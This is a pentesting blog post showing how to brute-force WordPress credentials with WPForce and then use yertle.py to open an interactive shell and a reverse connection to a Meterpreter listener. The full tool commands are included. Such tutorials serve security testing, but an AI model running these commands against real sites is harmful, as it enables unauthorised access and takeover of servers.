 ```yaml
---
title:  "Reverse Shell in Wordpress with WPForce"
date:   2021-08-08 18:20:00 +0100
categories: [techniques]
tags: [web exploitation,wordpress]
---
```



Reverse Shell in Wordpress with WPForce and Yertle

Imagine the scenario where you are presented with a WordPress site during a pentest and want to get in.   
Standard 'author?' requests don't give you the name of any users and you need to look else where.   
One nice alternative to using WPScan to brute force the username and password field is WPForce.   
Taken from the WPForce website, link: [WPFORCE](https://www.n00py.io/category/pentesting 'WP-FORCE')


"
Unlike WPScan, which performs brute force login attempts against the login page of WordPress, WPForce uses authenticated API calls to test the validity of credentials.  While most security plugins are wise to this method, it does provide slightly more stealth.
"


So first, clone yourself a copy of WPForce

`git clone https://github.com/n00py/WPForce.git`

Once downloaded, parse the user, password and website deatils:

`python wpforce.py -i usr.txt -w pass.txt -u "http://www.[website].com"`

Once the script completes hopefully the Username and Password is dicovered. However if not choose different word-lists that are more appropriate to your scenario, maybe you get lucky.


![img-description](/images/WPForce-1.png)
_executing the script_

![img-description](/images/WPForce-2.png)
_Example of a PAssword Found sucessfully_

Having figured out the username and password to a Wordpress CMS site and now want to gain a shell.   

Normally you would either have to circumvent the upload restrictions on the Wordpress page, which can be time consuming with a lot of trial and error or disguise an upload file within a custom built plugin. Again something potentially time consuming to achieve, this is where WPForce comes in.    

WPForce is a useful tool that will create an interactive shell or a reverse TCP connection to a meterpreter listener. It also has lots of other interesting features like hooking to the BEEF Framework.    

To start with, make sure you have the python 'Requests' HTTP libraries installed, you can install them using PIP.   

`pip install requests`

Now we are set lets start..   

`Arguments - -t URL, -u username, -p password, -v verbose, -li localhost, -lp localport, -r reverse or -i interactive, -a User Agent.`

{% include codeHeader.html %}
`python yertle.py -t http://192.168.0.122/wordpress -u admin -p admin -v -li 192.168.0.100 -lp 80 -r`

![img-description](/images/Yertle-1.png)
_Executing The Script_

From here we have an interactive shell with limited functionality.   

![img-description](/images/Yertle-2.png)
_Interactive Shell_

A simple directory listing from within the web server from an interactive shell.   

![img-description](/images/Yertle-3.png)
_Interactive Shell_

Now setup a Meterpreter listener to wait for our connection.   

![img-description](/images/Yertle-5.png)
_Interactive Shell_

Now we simply type 'meterpreter' and add the IP and Port details.   

![img-description](/images/Yertle-6.png)
_Interactive Shell_

We receive the meterpreter session in metasploit.   

![img-description](/images/Yertle-7.png)
_Interactive Shell_

Now we can continue our enumeration from Metasploit.   

